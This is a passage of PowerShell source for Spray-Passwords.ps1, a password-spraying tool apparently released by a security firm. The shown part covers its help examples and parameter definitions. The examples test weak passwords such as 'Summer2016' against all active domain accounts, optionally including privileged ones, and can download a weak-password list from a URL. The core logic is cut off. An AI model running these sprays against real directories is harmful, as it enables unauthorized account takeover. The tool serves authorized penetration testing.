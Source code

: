 ```powershell
    PS C:\> .\Spray-Passwords.ps1 -Pass 'Summer2016'
    1. Test the password 'Summer2016' against all active user accounts, except privileged user accounts (admincount=1).
  .EXAMPLE
    PS C:\> .\Spray-Passwords.ps1 -Pass 'Summer2016,Password123' -Admins
    1. Test the password 'Summer2016' against all active user accounts, including privileged user accounts (admincount=1).
  .EXAMPLE
    PS C:\> .\Spray-Passwords.ps1 -File .\passwords.txt -Verbose 
    
    1. Test each password in the file 'passwords.txt' against all active user accounts, except privileged user accounts (admincount=1).
    2. Output script progress/status information to console.
  .EXAMPLE
    PS C:\> .\Spray-Passwords.ps1 -Url 'https://raw.githubusercontent.com/ZilentJack/Get-bADpasswords/master/BadPasswords.txt' -Verbose 
    
    1. Download the password file with weak passwords.
    2. Test each password against all active user accounts, except privileged user accounts (admincount=1).
    3. Output script progress/status information to console.
  .LINK
    Get latest version here: https://github.com/ZilentJack/Spray-Passwords
  .NOTES
    Authored by    : Jakob H. Heidelberg / @JakobHeidelberg / www.improsec.com
    Together with  : CyberKeel / www.cyberkeel.com
    Date created   : 09/05-2016
    Last modified  : 26/06-2016
    Version history:
    - 1.00: Initial public release, 26/06-2016
    Tested on:
     - WS 2016 TP5
     - WS 2012 R2
     - Windows 10
    Known Issues & possible solutions/workarounds:
     KI-0001: -
       Solution: -
    Change Requests for vNext (not prioritized):
     CR-0001: Support for Fine-Grained Password Policies (FGPP).
     CR-0002: Find better way of getting Default Domain Password Policy than "NET ACCOUNTS". Get-ADDefaultDomainPasswordPolicy is not en option as it relies on RSAT.
     CR-0003: Threated approach to test more user/password combinations simultaneously.
     CR-0004: Exception or include list based on username, group membership, SID's or the like.
     CR-0005: Exclude user account that executes the script (password probably already known).
    Verbose output:
     Use -Verbose to output script progress/status information to console.
#>

[CmdletBinding(DefaultParameterSetName='ByPass')]
Param 
(
    [Parameter(Mandatory = $true, ParameterSetName = 'ByURL',HelpMessage="Download file from given URL and use as password input file to test multiple passwords for each targeted user account.")]
    [String]
    $Url = '',

    [Parameter(Mandatory = $true, ParameterSetName = 'ByFile',HelpMessage="Supply a path to a password input file to test multiple passwords for each targeted user account.")]
    [String]
    $File = '',

    [Parameter(Mandatory = $true, ParameterSetName = 'ByPass',HelpMessage="Specify a single or multiple passwords to test for each targeted user account. Eg. -Pass 'Password1,Password2'")]
```